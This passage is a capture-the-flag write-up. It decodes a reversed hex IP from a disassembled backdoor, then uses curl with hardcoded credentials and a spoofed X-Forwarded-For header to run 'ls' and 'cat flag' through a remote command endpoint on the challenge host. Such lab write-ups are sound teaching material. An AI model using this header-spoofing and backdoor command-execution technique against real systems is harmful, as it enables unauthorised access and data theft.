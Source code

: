 It is checking the `X-Forwarded-For`, right? But where is the IP? After some struggling, we decided to convert the suspicious number `2E3933322E323831h` into a string using Python. (Well, if you know IDA, one could have just right-clicked on the value and have it decode the value into a string. 🫠) And we get `.932.281`, which looks like an IP address! It is obviously truncated. Less obviously, also reversed because each number in a IPv4 address cannot exceed 255, and reversing it makes it valid: `182.239.`. Well, there are some more suspicious number below: `2E373231h`, `3331h`, and `37h`, which respectively gives `.721`, `31`, and `7`. Reversing them respectively gives `127.`, `13`, and `7`. Note that if we combine the strings together, we get a full IPv4 address: `182.239.127.137`. Let's try setting `X-Forwarded-For: 182.239.127.137` in the header:

```shell
$ curl http://ash-chal.firebird.sh:36001/admin -i -u b4ckd00r:p4ssw0rd -X POST -H "Content-Type: application/json" -H "X-Forwarded-For: 182.239.127.137" -d '{"value": "something"}'
HTTP/1.1 400 Bad Request
Date: Mon, 22 Jan 2024 12:53:06 GMT
Content-Length: 0

$ curl http://ash-chal.firebird.sh:36001/admin -i -u b4ckd00r:p4ssw0rd -X POST -H "Content-Type: application/json" -H "X-Forwarded-For: 182.239.127.137" -d '{"command": "something"}'
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 22 Jan 2024 12:53:15 GMT
Content-Length: 67

{"error":{"Name":"something","Err":{}},"stderr":null,"stdout":null}
```

Hmm... `stderr` and `stdout`... Is that a shell? Let's try running `ls`:

```shell
$ curl http://ash-chal.firebird.sh:36001/admin -i -u b4ckd00r:p4ssw0rd -X POST -H "Content-Type: application/json" -H "X-Forwarded-For: 182.239.127.137" -d '{"command": "ls"}'
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 22 Jan 2024 12:54:19 GMT
Content-Length: 54

{"error":null,"stderr":"","stdout":"Y2hhbApmbGFnCg=="}
```

The value in `stdout` looks like Base64. Decoding it gives:

```text
chal
flag
```

Let's read the `flag` using `cat flag`:

```shell
$ curl http://ash-chal.firebird.sh:36001/admin -i -u b4ckd00r:p4ssw0rd -X POST -H "Content-Type: application/json" -H "X-Forwarded-For: 182.239.127.137" -d '{"command": "cat flag"}'
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 22 Jan 2024 12:57:29 GMT
Content-Length: 86

{"error":null,"stderr":"","stdout":"ZmlyZWJpcmR7ZzBfZjFuZF95MHVyX2JhY2tkMDByNSF+fQo="}
```
